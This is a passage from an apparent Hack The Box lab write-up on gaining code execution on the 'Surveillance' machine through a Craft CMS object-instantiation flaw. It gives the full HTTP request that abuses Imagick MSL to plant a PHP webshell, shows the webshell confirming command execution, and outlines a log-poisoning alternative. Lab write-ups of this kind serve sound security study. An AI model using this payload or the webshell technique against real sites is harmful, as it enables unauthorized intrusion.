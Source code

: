 The MSL file reads the static webshell text and writes it into the webroot identified [above](#verify-poc).

Now I need to invoke that MSL using imagick. I’ll send that file upload request to another Repeater window and make some changes:
- I’ll remove the file block.
- l use the same `vid` trick as in [Intentions](/2023/10/14/htb-intentions.html#arbitrary-object-instantiation) to reference the MSL file using a wildcard:

```

POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 411
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"vid:msl:/tmp/php*"}}}
--0xdf0xdf0xdf0xdf

```

This hangs for a second before returning 502 Bad Gateway.

But the webshell is in the web root:

```

oxdf@hacky$ curl http://surveillance.htb/0xdf.php?cmd=id
caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
 CAPTION 120x120 120x120+0+0 16-bit sRGB 2.250u 0:02.259

```

### Alternative Object Abuse

#### Strategy

The original author of the box took a slightly different path towards abusing the arbitrary object instantiation to solve the issue of getting a webshell following details in [this post](https://blog.calif.io/p/craftcms-rce) by the vulnerability’s discoverer:
- Poison the craft web logs with a PHP webshell in a `User-Agent` string.
- Include the file using the `yii` module’s `PhpManager` object.
